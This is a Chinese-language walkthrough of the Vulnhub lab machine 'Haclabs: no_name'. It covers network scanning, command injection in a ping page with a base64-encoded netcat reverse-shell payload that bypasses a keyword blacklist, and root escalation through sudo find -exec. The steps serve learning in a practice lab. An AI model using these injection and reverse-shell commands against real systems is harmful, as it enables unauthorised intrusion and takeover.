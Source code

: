 ```yaml
---
layout: post
title: "Haclabs:no_name walkthrough"
date: 2021-07-04
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP              |
| ------------- | --------------- |
| 本机（Win10） | `192.168.1.115` |
| Kali          | `192.168.1.116` |
| No Name       | `192.168.1.118` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.1.118`

```shell
┌──(root💀kali)-[~]
└─# nmap -A -p- 192.168.1.118
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-04 07:38 UTC
Nmap scan report for 192.168.1.118
Host is up (0.013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: A8:66:7F:1B:19:D8 (Apple)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
```

结果中没什么值得注意的地点，那么下一步进行目录枚举，并且在*/admin*目录下发现4张图片，其中*ctf-01.jpg*图片比较可疑（以为是第一关），经过图片隐写等一系列骚操作后一无所获，然而是我想多了。。。

之后经过*dirb*暴力枚举发现了另一个页面：`/superadmin.php`

```shell
┌──(root💀kali)-[/usr/share/dirb/wordlists]
└─# dirb http://192.168.1.118 /usr/share/wordlists/dirb/big.txt -X .php
...
---- Scanning URL: http://192.168.1.118/ ----
+ http://192.168.1.118/index.php (CODE:200|SIZE:201)
+ http://192.168.1.118/superadmin.php (CODE:200|SIZE:152)
...
```

### Getshell

该页面的功能是进行ping IP地址，这里就立刻想到了命令注入。果然尝试后发现的确存在命令注入，依次进行测试：

```shell
127.0.0.1|id	-> Y
127.0.0.1|nc 192.168.1.116 5566   -> N
|nc.traditional -e /bin/bash 192.168.1.116 5566	  -> N
```

之后想到我们可以查看*superadmin.php*源码，命令：`| cat superadmin.php`

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

代码比较简单，对`$_POST['pinger']`参数传递的值进行过滤，并且前后需一致才能执行`shell_exec()`，因此只要传递的值不包含匹配的内容即可，那么可以输入以下命令即可getshell。

```shell
| `echo "bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS4xMTYgNTU2Ng==" | base64 -d `
```
### 提权

```bash
┌──(root💀kali)-[/usr/share/dirb/wordlists]
└─# nc -lvp 5566
listening on [any] 5566 ...
192.168.1.118: inverse host lookup failed: Unknown host
connect to [192.168.1.116] from (UNKNOWN) [192.168.1.118] 44548
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@haclabs:/var/www/html$
```

在*/home/yash*找到第一个flag：

```bash
www-data@haclabs:/home/yash$ cat flag1.txt
Due to some security issues,I have saved haclabs password in a hidden file.
```

并且提示信息告诉我们需要找一个隐藏文件，猜测文件前有个`.`，不过需要注意文件所属用户是*yash*，那么使用*find*命令进行查找：

```bash
www-data@haclabs:/home/yash$ find / -type f -user yash 2>/dev/null
/home/yash/flag1.txt
/home/yash/.bashrc
/home/yash/.cache/motd.legal-displayed
/home/yash/.profile
/home/yash/.bash_history
/usr/share/hidden/.passwd
```

查看*.passwd*文件得到密码：`haclabs1234`，使用密码切换到*haclabs*用户后在，在*/home/haclabs*目录下得到第二个flag：

```shell
haclabs@haclabs:~$ cat flag2.txt
I am flag2

           ---------------               ----------------


                               --------
```

并且在执行*sudo -l*命令后知道该用户可执行具有SUID权限的*/usr/bin/find*工具，并且该命令中的`-exec`可执行命令。

```shell
haclabs@haclabs:~$ sudo -u root find . -exec /bin/bash \; -quit
root@haclabs:~# id
uid=0(root) gid=0(root) groups=0(root)
root@haclabs:~# cat flag3.txt
Congrats!!!You completed the challenege!



                                                   ()    ()

                                                 \          /
                                                  ----------
```

### 总结

- `find`工具执行命令：`find . -exec id \; -quit`
- `nc`工具进行反向shell：`nc -e /bin/bash 192.168.1.116 5566`


